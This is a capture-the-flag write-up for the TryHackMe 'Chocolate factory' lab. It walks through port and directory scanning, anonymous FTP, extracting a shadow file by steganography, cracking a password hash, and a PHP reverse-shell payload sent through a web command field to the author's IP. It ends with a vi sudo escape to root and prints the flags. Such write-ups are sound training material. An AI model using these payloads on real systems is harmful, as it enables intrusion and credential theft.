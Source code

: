 # Room: Chocolate factory

## General Info
- **Room link:** [Chocolate factory](https://tryhackme.com/room/chocolatefactory)


## Description

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

## Provided Files / Links
- [x] Target Machine IP (10.10.147.150)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV -sC -Pn 10.10.147.150 -T5`

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
```

- Directory Enumeration

`gobuster dir -u http://10.10.147.150 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -t 10`

```
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/.htaccess            (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1466]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/validate.php         (Status: 200) [Size: 93]
/.htm                 (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/wp-forum.phps        (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/index.php.bak        (Status: 200) [Size: 273]
/.htaccess.old        (Status: 403) [Size: 278]
/.htacess             (Status: 403) [Size: 278]
```

I then went to /home.php and notice that there was an input field named "command".

I typed 'ls' and got a `key_rev_key` response.

I accessed /key_rev_key and downloaded the key. Then I used strings to find plain text information:

`strings key_rev_key`: **VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.

---

I checked for anonymous access in the ftp port and it worked. I found a gum_room.jpg file. I didn't find anything relevant with strings, file, exiftool but I was able to extract a b64.txt file with steghide (`steghide extract -sf gum_room.jpg`).
The file is a base64 encoded text and when decoded, I got usernames and passwords:

```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9jpNx$khGlFdICJnr8R3JCjTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

I then used John the Ripper to crack the hash: `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt charlie_hash.txt` and found **cn7824**.

---

I went back to /home.php and tested for RCE with the following payload:

`php -r '$sock=fsockopen("10.9.2.55",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

I created a listener on my machine (`nc -nlvp 1337`) and was able to get a shell. I stabilized the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I found the user flag in charlie's home but I cannot read it yet. In his home directory, I found a 'teleport' file that contains his ssh private key.
I copied his private key in a id_rsa file in my machine and was able to login via ssh (`ssh -i id_rsa charlie@10.10.212.228`).

I was now able to read the user.txt flag: **flag{cd5509042371b34e4826e4838b522d2e}**.

---

I then checked for sudo privileges (`sudo -l`) and found:

```
(ALL : !root) NOPASSWD: /usr/bin/vi
```
I checked https://gtfobins.github.io/gtfobins/vi/ and found that I can get root access with: `sudo vi -c ':!/bin/sh' /dev/null`.

Now that I am root, I went to /root and found a root.py file:

```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

The message is encrypted with Fernet. The message is `gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ` and the key is `-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=`. 

I then got the root flag: **-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.
